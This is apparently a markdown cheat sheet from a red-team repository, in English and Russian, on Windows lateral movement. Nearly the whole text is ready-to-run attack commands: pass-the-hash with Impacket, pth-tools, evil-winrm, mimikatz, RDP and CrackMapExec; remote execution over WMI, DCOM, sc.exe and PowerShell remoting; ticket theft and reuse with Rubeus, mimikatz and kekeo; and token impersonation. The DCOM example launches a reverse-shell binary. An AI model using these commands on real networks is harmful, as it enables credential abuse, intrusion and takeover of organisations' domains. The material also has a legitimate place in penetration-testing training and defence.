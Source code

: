 ## Pass the Hash:  
**Impacket and pth**: 
export SMBHASH=NTML hash
1) psexec.py -hashes LM:NTLM admin@target  
2) wmiexec.py -hashes :NTLM admin@target  
3) pth-winexe -U admin% //target cmd  
4) pth-wmic -U admin% //target "select Name from Win32_UserAccount"  
5) pth-wmis -U admin% //target "cmd.exe /c whoami > c:\out.txt"
6) pth-smbclient -U admin% //target/c$
7) pth-rpcclient -U admin% //target
8) pth-sqsh -U admin -S target
9) pth-curl http://target/exec?cmd=ipconfig
10) pth-net rpc group ADDMEM 'Administrators' username -S target -U domain/user

**Evil-winrm**:  
evil-winrm -i target -u admin -H "NT hash value"

**Windows (mimikatz)**:  
mimikatz.exe securlsa::pth /user:username /domain:domain /ntlm:NTLM_HASH /run:cmd  

**RDP**:  
xfreerdp /u:<user> /d:domain /pth:hash /v:ipAddr 

**CME**:  
crackmapexec smb <IP> -u username -H ":NT hash value"  

## PowerShell-Remoting: 

Enter-PSSession -ComputerName <computername> -Credentials <domain>\username  

Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <computername> -Credentials <domain>\username  

$session = New-PSSession -ComputerName <computer name> -verbose  
Enter-PSSession -Session $session -Verbose  
Invoke-Command -Session $session -ScriptBlock {whoami;hostname} -Verbose  

## REG.EXE:  
reg.exe; //Удаленный доступ к реестру с правами на запись на самом деле нам дает RCE.  
  
## DCERPC:  
Использует порты 135/TCP и 4915x/TCP, где 4915x — динамически назначаемые порты. Иногда могут использоваться порты из другого диапазона.  

1. wmiexec.py admin@target; //wmiexec.py -nooutput admin@target "mkdir c:\pwn".  
2. dcomexec.py admin@target; //dcomexec.py -nooutput admin@10.0.0.64 "mkdir c:\123".  
3. wmis -U admin //target "mkdir c:\pwn"/  
4. wmic.exe /user:username /password:password /node:target process call create '"c:\123".  
5. sc.exe; //Назначение инструмента — удаленное управление службами и драйверами. 
    - sc.exe \\target create testservice binPath= \path\to\prog start= auto  
    - sc.exe \\target start testservice  

## Pass the Ticket (Rubeus):  

**Description**: Если у нас имеется Kerberos-билет TGT (билет пользователя), то мы можем применить егодля аутентификации. При этом Linux и Windows используют разные форматы — ccache и kirbi соответственно.  

  **First step**: [steal ticket](https://github.com/Kerkroups/Cyber-Kill-Chain/blob/main/Data%20Gathering%20-%20Credentials%20Theft.md#%D0%B8%D0%B7%D0%B2%D0%BB%D0%B5%D1%87%D0%B5%D0%BD%D0%B8%D0%B5-kerberos-tickest-rubeus)  
**Second step**: create hidden process  
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:username /password:fakepassword  
**Pass the ticket**: Rubeus.exe ptt /luid:(luid of areated process) /ticket:(stolen ticket)  
  
**Tools to steal token**:  
  1. https://github.com/slyd0g/PrimaryTokenTheft  
  2. https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation  
  3. Cobalt Strike, Covenant.  

**WINDOWS (Mimikatz)**:  
mimikatz# kerberos::ptt c:\path\to\tgt.kirbi  
mimikatz# kerberos::ptс c:\path\to\tgt.ccache  
После импорта используем любую нужную нам программу без указания каких‐либо ключей: dir \\dc.company.org\c$  

Под Linux делаем Pass-the-Ticket в формате ccache:  
cp tgt.ccache /tmp/krb5cc_0  
klist  
Конертируем билет в ccache: kekeo.exe "misc::convert ccache ticket.kirbi" "exit"  
После импорта билеты в Linux используем следующим образом:   
  - smbclient -k //dc.company.org/c$  
  - winexe -k yes -N //dc.company.org cmd  
  
Инструменты из набора impacket могут использовать билеты без предварительного импорта: Чтобы использовать Kerberos-билет при аутентификации, нужно обращаться к target по имени, а не по IP-адресу.  

KRB5CCNAME=`pwd`/tgt.ccache psexec.py -k -dc-ip 10.0.0.1 target.domain.com  
KRB5CCNAME=`pwd`/tgt.ccache secretsdump.py -k -no-pass target.domain.com  

## Overpass the Hash (Rubeus):  
**Overpass the hash is a technique which allows us to request a Kerberos TGT for a user use their NTLM or AES hash**.  
Rubeus.exe asktgt /user:username /aes256:(aes256 hash) /opsec /nowrap

## Token Impersonation (Incognito):  
load_incognito //load module;  
list_tokens -u //list available tokens;  
impersonate_token [domain]\\[username] //impersonate token;  
shell //get shell with privilege of stealed token;  

## DCOM:  
[Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) example:  
1) powershell-import C:\Tools\Invoke-DCOM.ps1  
2) powershell Invoke-DCOM -ComputerName dc.domain.local -Method MMC20.Application -Command C:\Windows\reverse_shell.exe  
  
**Aditional information and techniques**:  
  - https://www.ired.team/offensive-security/lateral-movement/t1175-distributed-component-object-model  
  - https://redblue42.code42.com/detecting-lateral-movement-via-dcom/  

## GOLDEN TICKET:  

**Description**: forge user TGT, need krbtgt for encryption.
  
  
## SILVER TICKET:  

**Description**: forge service TGS, need service hash for encryption ticket.



  
